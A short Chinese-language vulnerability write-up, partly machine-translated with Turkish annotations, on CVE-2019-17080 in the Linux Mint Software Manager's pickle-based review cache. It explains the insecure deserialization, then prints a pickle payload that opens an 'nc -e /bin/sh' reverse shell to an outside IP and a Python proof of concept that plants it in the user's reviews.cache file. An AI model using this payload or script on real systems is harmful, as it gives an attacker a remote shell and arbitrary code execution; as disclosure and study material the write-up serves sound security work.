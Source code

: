 # CVE-2019-17080 Mintinstall object injection

### 一、漏洞简介

Linux mint软件管理器（v 7.9.5 / 9）由于配置错误而导致对象注入和任意代码执行。

Linux Mint Software Manager（v 7.9.5 / 9）由于配置错误而导致我们执行对象注入和任意代码

### 二、漏洞影响

Version: 7.9.9

### 三、复现过程

mintinsall

我们运行Mint软件管理器还会检查是否有新注释，如果new-reviews.list 下载中有 新注释并写入文件。

如果有新评论，请从文件new-reviews.list下载并写入文件

code mintinstall.py

首次启动软件管理器时，它会从评论模块调用ReviewCache（）类。

它如何处理数据？

code reviews.py

当ReviewCache类启动（init）时，它将调用_load_cache（）函数。

加载缓存功能读取REVIEWS_CACHE变量中的文件，并在pickle模块的帮助下，对文件中的数据进行反序列化并在内存中保存一些值

如果您尝试反序列化文件，则我们的恶意代码将起作用。


```bash
cos 
system 
(S'nc -e /bin/sh 192.168.2.138 4545' 
tR.
>>modül adı c{os}
>> fonksiyon
( >> işaretleyici nesnesi 
S >> tırnak sonuna kadar okuyup stack'e at
tR. >> stackte olanları çagır ve sonucu stacke yerleştir.
```

poc


```python
import os
import sys
def shellCode(payload):
    with open(f"{os.getenv('HOME')}/.cache/mintinstall/reviews.cache","w") as wb:
        wb.write(payload)
    print("[+] Start mintinstall")
if __name__=="__main__":
    shellCode(f"""cos\nsystem\n(S"nc -e /bin/sh {sys.argv[1]} {sys.argv[2]}"\ntR.""")
else:
    print("[!] exploit.py [IP] [PORT]")
```